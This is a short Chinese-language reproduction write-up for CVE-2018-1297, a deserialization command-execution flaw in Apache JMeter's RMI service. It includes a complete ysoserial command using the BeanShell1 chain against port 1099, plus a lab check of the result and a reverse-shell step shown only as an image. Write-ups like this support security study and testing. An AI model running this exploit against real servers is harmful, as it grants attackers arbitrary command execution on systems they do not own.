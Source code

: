 # （CVE-2018-1297）Apache Jmeter RMI 反序列化命令执行漏洞

## 一、漏洞简介

Apache JMeter是美国阿帕奇（Apache）软件基金会的一套使用Java语言编写的用于压力测试和性能测试的开源软件。其2.x版本和3.x版本中存在反序列化漏洞，攻击者可以利用该漏洞在目标服务器上执行任意命令。

## 二、漏洞影响

Apache JMeter 2.x版本

Apache JMeter 3.x版本

## 三、复现过程

直接使用ysoserial即可进行利用：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit ip 1099 BeanShell1 'touch /tmp/success'

```

我们使用的是BeanShell1这条利用链。使用`docker-compose exec jmeter bash`进入容器，可见`/tmp/success`已成功创建：

![1.png](images/6abfab811a054cbdb0217774907140de.png)

反弹shell:

![2.png](images/59d09b33168042b2be2a22e6d6d704f8.png)

